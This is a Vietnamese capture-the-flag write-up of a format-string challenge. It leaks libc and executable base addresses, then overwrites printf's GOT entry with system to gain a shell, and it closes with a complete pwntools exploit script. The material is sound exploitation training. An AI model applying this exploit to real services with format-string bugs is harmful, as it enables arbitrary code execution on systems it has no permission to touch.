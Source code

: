 # Format String - Tấn công bảng GOT

**ida:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/9cde148c-cd27-4360-b944-2cc56dc3d965)


nhìn sơ qua thì ko thấy BOF, chỉ có lỗi fmtstr 

**checks:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/d20fa5ae-82f1-4ccd-9501-e436c58cb35e)


**bài này khá lạ so với các bài khác đó là RelRO tắt** 

Với RelRO là No hoặc Partial, bảng GOT nằm trong vùng địa chỉ ghi được nên với lỗi format string, ta hoàn toàn có thể thay đổi bảng GOT thành địa chỉ hàm khác để khi chương trình thực thi PLT, nó sẽ gọi tới hàm đã thay thế.

**ý tưởng giải bài này:**

- lợi dụng việc **RelRO tắt** , ta có thể thay đổi got của printf thành địa chỉ của hàm khác, thứ ta cần lúc này là hàm system, mà trong bài ko có nên ta chỉ có thế lấy ra từ libc => **leak libc base**
- **để ý ở đây là PIE mở, địa chỉ động** , các với các bài ret2libc ta thường làm, nên muốn dùng got vs plt ta cần có địa chỉ exe => **leak exe base**

**bonus:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/62d100cf-1c9c-420c-bdd5-2ed2f8d6ef62)


- cuối cùng ta cần lợi dụng lỗi fmtstr để biến got printf thành địa chỉ system để khi lặp lại fget ta nhập /bin/sh và lấy được shell => Overwrite GOT

### 1. leak libc base

ở rip có địa chỉ **_libc_start_main_ret**, ta sẽ dùng %p để leak địa chỉ này ra, tính offset rồi tìm được địa chỉ base của libc

![image](https://github.com/gookoosss/CTF.-/assets/128712571/f9c6e267-0573-4a21-8bb4-5fcc020def4d)


![image](https://github.com/gookoosss/CTF.-/assets/128712571/d6f4a757-3364-4107-b312-fdf131e30565)



### 2. leak exe base

để ý ảnh trên thì trong stack có nhiều địa chỉ rác, ta sẽ chọn 1 trong những địa chỉ đó để leak ra, từ đó tính offset là ra địa chỉ **exe base**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/1d3ae56c-a734-4e6d-b811-3b7a36e0100f)


**chú ý:**
- nãy h ta chỉ đang làm trên local , nếu thi ctf thực tế thì ta cần tìm file libc hợp với server trước khi leak libc base, nếu ko ta có thể sai offset
- link tìm libc chuẩn: https://libc.blukat.me/

**thành quả sau 2 bước đầu tiên của ta**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/ac832531-9626-4910-859e-b77dda5e080b)


### 3. Overwrite GOT

đến bước khó nhất rồi, h **ta hãy quan sát got của printf và địa chỉ của system trong libc xem sao:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/3ee32f9e-23de-4be6-a5c4-1cfa833683b9)


**got printf là 0x7ffff7dee770, còn system là 0x7ffff7dded60**, để ý thì thấy 2 địa chỉ này chỉ khác nhau mỗi **3byte cuối**, nên lúc này ta sẽ lợi dụng lỗi fmtstr và relro tắt để thay đổi 3 byte cuối địa chỉ got của printf thành địa chỉ của system

**ở đây ta ko thể in 1 lúc 3 byte được vì máy ko chạy nổi, nên theo kinh nghiệm thì lần đầu ta in ra 1 byte cuối trước, lần 2 ta sẽ in 2 byte sau để tránh lỗi** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/8c2d5906-df54-4041-8ad4-ceffa54a381f)


đến đây ta chạy thử script xem sao:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/5ca8221c-688f-45c0-b2fc-13e5d6a404c7)


**ở stack 0x20 ta gán địa chỉ got của printf nhưng mà bây giờ đã bị gán thành địa của hàm system rồi nè** 

check lại lần nữa xem sao:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/67fcc53d-b6a5-4051-9fe1-3d4e1747ca78)


chuẩn luôn rồi hehe

h chỉ cần nhập **/bin/sh** là lấy được shell rồi

**script:**

```
from pwn import *

context.binary = exe = ELF('./fmtstr6_patched')
libc = ELF('./libc6-amd64_2.31-0ubuntu9_i386.so')
p = process(exe.path)

# vì RelRO nên GOT có thể ghi đọc được, nên ta có thể thay địa chỉ của GOT hàm này thành 1 hàm khác
# GOT rw-
# PLT

gdb.attach(p, gdbscript = '''
b*main+90
c
''')

input()

##################################
### Stage 1: leak libc address ###
##################################

p.sendlineafter(b'string: ',b'%19$p') # leak _libc_start_main_ret
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x27023
log.info("libc leak: " + hex(libc_leak))
log.info("libc base: " + hex(libc.address))

##################################
### Stage 2: leak exe  address ###
##################################

p.sendlineafter(b'string: ',b'%11$p')
exe_leak = int(p.recvline()[:-1], 16)
exe.address = exe_leak - 0x12cd
log.info("exe leak: " + hex(exe_leak))
log.info("exe base: " + hex(exe.address))

##################################
###   Stage 3: Overwrite GOT   ###
##################################

part1 = libc.sym['system'] & 0xff # lấy 1 byte cuối của địa chỉ system
part2 = libc.sym['system'] >> 8 & 0xffff # bỏ qua 1 byte, lấy 2 byte sau để in

payload = f'%{part1}c%10$hhn'.encode() # in 1 byte cuối của system
payload += f'%{part2 - part1}c%11$hn'.encode() # in 2 byte sau của system 
payload = payload.ljust(0x20, b'P') # ljust để cố định địa chỉ got của printf trên stack
payload += p64(exe.got['printf']) # thay đổi 1 byte cuối của got
payload += p64(exe.got['printf'] + 1) # bỏ qua 1 byte cuối, thay đổi 2 byte sau
p.sendlineafter(b'string: ', payload )

p.sendline(b'/bin/sh\0')

p.interactive()
```



